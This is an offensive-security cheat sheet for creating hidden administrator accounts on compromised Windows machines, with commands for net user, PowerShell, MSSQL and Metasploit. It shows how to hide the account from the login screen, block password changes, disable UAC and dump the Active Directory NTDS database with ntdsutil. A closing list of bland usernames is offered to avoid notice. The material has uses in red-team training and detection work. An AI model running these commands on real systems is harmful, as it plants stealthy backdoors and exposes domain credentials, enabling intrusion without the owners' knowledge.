 # Create User

Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Choose your decisions wisely.

## 01 - Command Prompt

```
C:\> net user sysadmin s3cur3d+1T /add /y

C:\> net localgroup Administrators sysadmin /add /y
```

Makes the user account invisible from the Windows Login screen

`C:\> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f`

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

`C:\> net user sysadmin /passwordchg:no`

Never expire the password (this command is intrusive so be careful)

`C:\> net accounts /maxpwage:unlimited`

Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q
```

Persistence method to add user account

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v MS_BACKUP /t REG_DWORD /d 0 /f`

Disabling UAC that allows the hacker to take full control

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

Enabling UAC to make the admin restrictive

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f`

## 02 - Powershell

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
New-LocalUser -Name sysadmin -Password $password
Add-LocalGroupMember -Groups Administrators -Member "sysadmin"
```

## 03 - MSSQL

```
$ sqsh -S <IP> -U <username> -P "<password>"
 
1> CREATE LOGIN <username> WITH PASSWORD = '<password>';
2> sp_addsrvrolemember '<username>', 'sysadmin';
3> go
```

## 04 - Metasploit

### 4.1 - Modules

#### 4.1.1 - Post

```
msf post(windows/manage/add_user) > options

Module options (post/windows/manage/add_user):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   ADDTODOMAIN  true             yes       Add to Domain if true, otherwise add locally
   ADDTOGROUP   false            yes       Add group if it does not exist
   GROUP                         no        Add user into group, creating it if necessary
   PASSWORD                      no        Password of the user
   SESSION                       yes       The session to run this module on.
   TOKEN                         no        Username or PID of the token which will be used (if blank, Domain Admin tokens will be enumerated)
   USERNAME                      yes       The username of the user to add (not-qualified, e.g. BOB)

msf post(windows/manage/add_user) > set username sysadmin

msf post(windows/manage/add_user) > set password s3cUrePassw0rd!

msf post(windows/manage/add_user) > set addtodomain false

msf post(windows/manage/add_user) > set addtogroup true

msf post(windows/manage/add_user) > set group administrators

msf post(windows/manage/add_user) > set session <number>

msf post(windows/manage/add_user) > run
```

### 4.2 - Meterpreter

#### 4.2.1 - Incognito

TODO: Fill this info

## 05 - User Accounts Examples

Here are the usernames that you can think of to create an account but be sure to come up your own to make it less obvious

```
service
windows
user
help
guest
assistant
HelpAssistant
admin
admin1
admin2
sysadmin
localadmin
MS_BACKUP
sqlbackup
loginid
oldadministrator
```

---
## References

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)